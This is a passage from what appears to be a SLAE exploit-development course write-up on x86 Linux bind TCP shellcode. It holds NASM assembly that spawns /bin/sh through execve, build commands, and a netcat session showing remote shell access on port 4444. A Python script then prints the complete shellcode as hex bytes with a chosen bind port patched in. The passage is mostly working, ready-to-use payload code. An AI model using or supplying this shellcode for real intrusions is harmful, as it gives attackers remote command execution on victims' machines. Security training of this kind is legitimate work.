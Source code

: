 ```nasm
    inc   ecx
    loop  dup

    ; spawn /bin/sh using execve
    ; $ecx and $edx are 0 at this point
    xor   eax, eax
    push  eax
    push  0x68732f2f
    push  0x6e69622f
    mov   ebx, esp    ; [$ebx]: null terminated /bin//sh
    mov   al, 0x0b
    int   0x80
```

Compiling & Testing
-------------------
To compile the program, run: `nasm -f elf32 bind_tcp.asm && ld -m elf_i386 bind_tcp.o -o bind_tcp`

Once compiled, run the `bind_tcp` executable and attempt to connect to the localhost on port 4444. If successful, it should be possible to execute shell commands as can be seen below:

```shell_session
$ nc -v localhost 4444
Connection to localhost 4444 port [tcp/*] succeeded!
pwd
/home/rastating/Code/slae/assignment_1
netstat -an | grep "4444"
tcp        0      0 0.0.0.0:4444            0.0.0.0:*               LISTEN     
tcp        0     26 127.0.0.1:56520         127.0.0.1:4444          ESTABLISHED
tcp        0      0 127.0.0.1:4444          127.0.0.1:56520         ESTABLISHED
```

Modifying The Bind Port
-----------------------
As the bind port is always 2 bytes, it is possible to make a helper program to automate this. An example of such program can be found below:

```python
import socket
import sys

code =  ""
code += "\\x89\\xe5\\x31\\xc0\\x31\\xdb\\x31\\xc9"
code += "\\x31\\xd2\\x50\\x50\\x50\\x66\\x68\\x11"
code += "\\x5c\\x66\\x6a\\x02\\x66\\xb8\\x67\\x01"
code += "\\xb3\\x02\\xb1\\x01\\xcd\\x80\\x89\\xc7"
code += "\\x31\\xc0\\x66\\xb8\\x69\\x01\\x89\\xfb"
code += "\\x89\\xe1\\x89\\xea\\x29\\xe2\\xcd\\x80"
code += "\\x31\\xc0\\x66\\xb8\\x6b\\x01\\x89\\xfb"
code += "\\x31\\xc9\\xcd\\x80\\x31\\xc0\\x66\\xb8"
code += "\\x6c\\x01\\x89\\xfb\\x31\\xc9\\x31\\xd2"
code += "\\x31\\xf6\\xcd\\x80\\x89\\xc6\\xb1\\x03"
code += "\\x31\\xc0\\xb0\\x3f\\x89\\xf3\\x49\\xcd"
code += "\\x80\\x41\\xe2\\xf4\\x31\\xc0\\x50\\x68"
code += "\\x2f\\x2f\\x73\\x68\\x68\\x2f\\x62\\x69"
code += "\\x6e\\x89\\xe3\\xb0\\x0b\\xcd\\x80"

if len(sys.argv) < 2:
    print 'Usage: python {name} [port_to_bind]'.format(name = sys.argv[0])
    exit(1)

port = hex(socket.htons(int(sys.argv[1])))
code = code.replace("\\x11\\x5c", "\\x{b1}\\x{b2}".format(b1 = port[4:6], b2 = port[2:4]))

print code
```